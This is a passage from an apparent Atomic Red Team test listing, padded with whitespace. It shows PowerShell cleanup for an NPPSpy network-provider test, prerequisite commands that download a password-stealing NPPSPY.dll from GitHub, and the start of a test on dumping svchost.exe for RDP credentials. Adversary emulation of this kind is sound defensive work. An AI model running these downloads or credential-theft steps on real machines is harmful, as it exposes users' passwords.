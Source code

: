 ```
lue -replace ',NPPSpy',''                                                                                                                                                                       Set-ItemProperty -Path $cleanupPath.PSPath -Name "PROVIDERORDER" -Value $cleanupUpdatedValue                                                                                                                                            Remove-Item -Path "HKLM:\SYSTEM\CurrentControlSet\Services\NPPSpy" -Recurse -ErrorAction Ignore                                                                                                                                         Remove-Item C:\NPPSpy.txt -ErrorAction Ignore                                                                                                                                                                                           Remove-Item C:\Windows\System32\NPPSpy.dll -ErrorAction Ignore                                                                                                                                                                                                                                                                                                                                                                                                                  Dependencies:                                                                                                                                                                                                                           Description: NPPSpy.dll must be available in ExternalPayloads directory                                                                                                                                                                 Check Prereq Command:                                                                                                                                                                                                                   if (Test-Path "PathToAtomicsFolder\..\ExternalPayloads\NPPSPY.dll") {exit 0} else {exit 1}                                                                                                                                              Check Prereq Command (with inputs):                                                                                                                                                                                                     if (Test-Path "C:\AtomicRedTeam\atomics\..\ExternalPayloads\NPPSPY.dll") {exit 0} else {exit 1}                                                                                                                                         Get Prereq Command:                                                                                                                                                                                                                     [Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12                                                                                                                                                         New-Item -Type Directory "PathToAtomicsFolder\..\ExternalPayloads\" -ErrorAction Ignore -Force | Out-Null                                                                                                                               Invoke-WebRequest -Uri https://github.com/gtworek/PSBits/raw/f221a6db08cb3b52d5f8a2a210692ea8912501bf/PasswordStealing/NPPSpy/NPPSPY.dll -OutFile "PathToAtomicsFolder\..\ExternalPayloads\NPPSPY.dll"                                  Get Prereq Command (with inputs):                                                                                                                                                                                                       [Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12                                                                                                                                                         New-Item -Type Directory "C:\AtomicRedTeam\atomics\..\ExternalPayloads\" -ErrorAction Ignore -Force | Out-Null                                                                                                                          Invoke-WebRequest -Uri https://github.com/gtworek/PSBits/raw/f221a6db08cb3b52d5f8a2a210692ea8912501bf/PasswordStealing/NPPSpy/NPPSPY.dll -OutFile "C:\AtomicRedTeam\atomics\..\ExternalPayloads\NPPSPY.dll"                             [!!!!!!!!END TEST!!!!!!!]                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                               [********BEGIN TEST*******]                                                                                                                                                                                                             Technique: OS Credential Dumping T1003                                                                                                                                                                                                  Atomic Test Name: Dump svchost.exe to gather RDP credentials
```